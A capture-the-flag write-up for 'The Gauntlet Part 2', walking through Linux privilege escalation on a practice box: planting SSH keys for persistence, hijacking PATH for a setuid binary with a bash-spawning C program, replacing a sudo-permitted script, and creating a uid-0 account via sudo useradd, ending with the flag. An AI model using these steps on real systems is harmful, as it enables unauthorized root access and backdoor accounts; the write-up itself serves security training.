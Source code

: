 ## Original Writeup From lillieCan Taken From:

<code>[**https://ctf.lillie.sh/blog/misc/the-gauntlet-p2/**](https://ctf.lillie.sh/blog/misc/the-gauntlet-p2/)</code> 

<br>

# The Gauntlet - Part 2

**Challenge Prompt:**

> So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box. You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

Flag binaries are located at /home/*****/user.flag and /root/root.flag  
the-gauntlet.hkn

## Prerequisites

This writeup will be missing the rabbit holes, and other wrong paths I took. I decided to do this to save time so I can write more writeups. I might decide to write a more complete one later, so this will be a writeup in the mind of someone not doing any mistakes. But I’m happy to talk on the discord to discuss the challenge.

This is part 2 for The Gauntlet challenge, I recommend reading part 1 to understand context.

## SSH

We have reverse shell access, but instead of relying on the reverse shell it’s better to SSH. We saw earlier in the nmap scan that there is port 22 open.

We can add our public key into the file .ssh/authorized_keys that we need to create.

If you do not know how to create SSH keys, I can recommend searching online as there are many guides.

After adding the keys, I can now ssh using the command

```
ssh user1@the-gauntlet.hkn
```

## Escalate privileges

To get an overview of what accounts there are, we can run

```
cat /etc/passwd
```

and we see there are 3 accounts, and first goal is getting access to user3.

```
user1:x:1001:1001:,,,:/home/user1:/bin/bash
user2:x:1002:1002:,,,:/home/user2:/bin/bash
user3:x:1003:1003:,,,:/home/user3:/bin/bash
```

### Getting access to user2

Running `ls -la` in home folder gives us the following output

```
total 1612
drwxr-x--- 1 user1 user1   4096 Mar 15 10:04 .
drwxr-xr-x 1 root  root    4096 Jan 25 20:57 ..
-rw-r--r-- 1 user1 user1    220 Jan 25 20:57 .bash_logout
-rw-r--r-- 1 user1 user1   3771 Jan 25 20:57 .bashrc
drwx------ 2 user1 user1   4096 Mar 15 10:04 .cache
-rw-r--r-- 1 user1 user1    807 Jan 25 20:57 .profile
drwxrwxr-x 2 user1 user1   4096 Mar 15 10:02 .ssh
-rwxrwxrwx 1 root  root    6032 Jan 25 20:56 app.py
-rw-r--r-- 1 user1 user1   8192 Mar 15 09:12 ctf.db
-rwsrwsr-x 1 user2 user2 776520 Jan 25 20:56 testBin
-rwxrwxrwx 1 user1 user1 821008 Jan 25 20:56 user.flag
```

We can see that `testBin` is owned by user2, and also has a setuid bit set.

> The Unix and Linux access rights flags setuid and setgid (short for set user identity and set group identity) allow users to run an executable with the file system permissions of the executable's owner or group respectively and to change behaviour in directories.

So this means the binary can run with permissions of user2 even if we are not user2.

When first running `testBin` we get the following output

```
Usage: ./testBin <file>
```

and when providing a file we get output that seems to be from `xxd`

```
00000000: 2320 5965 732c 2049 2067 6f74 2043 6861  # Yes, I got Cha
...
```

We can abuse the `PATH` variable to check for variables in current directory with following commands.

```
PATH=.:${PATH}
export PATH
```

We can confirm this works by copying the user.flag binary as `xxd`.

```
cp user.flag xxd
```

When running the command `./testBin app.py` it runs the `user.flag` binary instead.

We can create our own binary that runs bash with user2 permissions

```c
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    execve(paramList[0], paramList, NULL);
    return 0;
}
```

Compile with:

```
nano main.c
gcc main.c
cp a.out xxd
chmod +x xxd
```

Run `testBin` again and confirm new shell as user2:

```
uid=1001(user1) gid=1001(user1) euid=1002(user2) egid=1002(user2) groups=1002(user2),100(users),1001(user1)
```

### Getting access to user3

```
ls -la
```

Output:

```
drwxr-xr-x 1 user2 user2 4096 Mar 15 10:57 .
...
-rwxrwxr-x 1 root  root    58 Jan 25 20:56 runMe.sh
```

Running `runMe.sh`:

```
If only I could be something useful...
```

Check sudo privileges:

```
sudo -l
```

Output:

```
(user3) NOPASSWD: /home/user2/runMe.sh
```

We can delete and replace `runMe.sh`:

```
rm runMe.sh
echo "id" > runMe.sh
chmod +x runMe.sh
```

Run as user3:

```
sudo -u user3 /home/user2/runMe.sh
```

Output:

```
uid=1003(user3) gid=1003(user3) groups=1003(user3),100(users)
```

To persist access:

```bash
cd ../user3
mkdir .ssh
cd .ssh
echo "public_key_here" > authorized_keys
```

Then:

```
ssh user3@the-gauntlet.hkn
```

## Getting Root

Check sudo again:

```
sudo -l
```

Output:

```
(root) NOPASSWD: /usr/sbin/useradd *
```

Create a new user with root privileges:

```
sudo -u root useradd -o --uid 0 --gid 0 user4 --password $(echo password | openssl passwd -6 -stdin)
```

Switch user:

```
su user4
```

Password: `password`

Confirm:

```
uid=0(root) gid=0(root) groups=0(root)
```

Final flag:

```
./root/root.flag
```

Output:

```
DDC{1_h0p3_y0u_enj0y3d_my_f1r27_B2R}
```

